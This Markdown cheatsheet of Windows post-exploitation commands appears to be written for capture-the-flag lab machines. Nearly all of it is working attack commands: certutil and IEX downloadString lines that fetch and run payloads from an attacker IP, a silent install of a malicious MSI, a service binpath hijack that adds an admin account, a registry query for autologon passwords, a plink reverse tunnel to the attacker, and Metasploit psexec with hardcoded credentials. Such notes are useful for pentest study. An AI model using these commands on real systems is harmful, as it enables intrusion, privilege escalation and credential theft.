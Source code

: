 # Cheatsheet

## Moving files

> - Ref: http://carnal0wnage.attackresearch.com/2017/08/certutil-for-delivery-of-files.html

```
certutil -verifyctl -split -f ​ http://10.10.14.8/taskkill.exe
mv *.bin taskkill.exe
```

## Extract ZIP
```
Add-Type -assembly
'system.io.compression.filesystem';[io.compression.zipfile]::ExtractToDirectory
("C:\backup.zip","C:\Example\")
```

## View File Systems
```
gdr -PSProvider 'FileSystem'
```

## Access shared volume
```
net use y: \\10.10.10.57\c$ /user:administrator 1234test
```

## Invoke command with credentials
```
$user = '.\administrator';
$psw = '1234test';
$secpsw = ConvertTo-SecureString $psw -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $user, $secpsw
```
```
invoke-command -computername localhost -credential $credential
-scriptblock {cd C:\Users\Administrator\Desktop\;C:\Users\Administrator\Desktop\root.exe}
```
## Alternate Data Stream
- Listing: `dir /R`
- Find Streams: `​get-item -path *.* -stream *`
- Reading: `​powershell Get-Content -Path "hm.txt" -Stream "root.txt"`
- Reading: `get-content backup.zip -stream 'pass'`
- Reading: `streams.exe /accepteula -s` from sysinternals

## MSI

### Installing MSI
```
msiexec /quiet /qn /i malicious.msi
```
```
/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs. administrative) installation
```

## Services

- Registry entries: `HKLM\SYSTEM\CurrentControlSet\Services`
- View service properties: `sc qc "Vulnerable Service"`
- Restarting: `sc stop "Vulnerable Service"`
- Service information: `Get-Service​ ​ "Ubiquiti UniFi Video"​ | fl *`
- Restart PC: `shutdown /r /t 0`
- Change binary path: `sc config "Vulnerable Service" binpath= "net user eviladmin P4ssw0rd@ /add`

### Keep alive
When a service starts in Windows operating systems, it must communicate with the `Service Control Manager`. If it’s not, `Service Control Manager` will terminates the process.

## Auto Save Password to PowerShell
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```
```
​$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;
$creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd)​

Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://<LAB IP>/writeup')" -Credential $creds
```
## Permissions

```
whoami /priv
```

## View Permisions
```
cacls C:\Users\Administrator\Desktop\root.txt
```

### Grant Permissions
```
cacls C:\Users\Administrator\Desktop\root.txt /grant Alfred:F
```

## SSH from Windows to Attacker (Kali)

### Manual
From Windows:
```
plink.exe -l root -pw  -R 445:127.0.0.1:445 10.10.14.8
```

From Attacker:
```
netstat -ano | grep 445
winexe -U Administrator //127.0.0.1 "cmd.exe"
```

### Metasploit
```
portfwd add -l 445 -p 445 -r 127.0.0.1
use exploit/windows/smb/psexec
 set SMBDOMAIN CHATTERBOX
 set SMBUSER Administrators
 set SMBPASS Welcome1!
 set RHOST 127.0.0.1
exploit
```
